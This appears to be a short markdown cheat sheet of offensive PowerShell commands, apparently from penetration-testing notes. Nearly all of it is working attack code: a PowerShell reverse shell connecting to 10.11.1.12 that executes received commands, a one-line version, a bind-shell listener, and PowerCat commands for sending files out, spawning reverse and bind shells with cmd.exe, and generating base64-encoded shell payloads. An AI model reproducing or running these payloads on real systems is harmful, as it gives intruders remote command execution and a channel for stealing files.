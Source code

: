 # Powershell Commands  

Useful powershell commands.  

### Environment.  

To change powershell execution policy.  

`Set-ExecutionPolicy Unrestricted`  

To find execution policy.  

`Get-ExecutionPolicy`  

### File Transfer.  

`powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.11.1.12','c:\Users\Bob\Desktop')"`  

### Reverse Shell.  

```
$client = New-Object System.Net.Sockets.TCPClient('10.11.1.12',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);
  $sendback = (iex $data 2>&1 | Out-String);
  $sendback2 = $sendback + 'PS' + (pwd).Path + '> ';
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte, 0, $sendbyte.Length);
  $stream.Flush();
}
$client.Close();
```  

In one line.  

`$client = New-Object System.Net.Sockets.TCPClient('10.11.1.12',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = $sendback + 'PS' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte, 0, $sendbyte.Length);$stream.Flush();}$client.Close();`

### Bind Shell.  

```
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```  

### PowerCat.  

Load functions from a script into a powershell instance.  

`. .\powercat.ps1`  

File transfer.  

`powercat -c 10.11.1.4 -p 443 -i c:\Users\Bob\file.txt`  

Send a reverse shell to a listener.  

`powercat -c 10.11.1.23 -p 443 -e cmd.exe`  

Bind shell with a powercat listener.  

`powercat -l -p 443 -e cmd.exe`  

Standalone reverse shell payload base 64 encoded.  

`powercat -c 10.11.1.23 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1`  

Running an encoded string.  

`powershell.exe -E <base64 encoded string here>`  


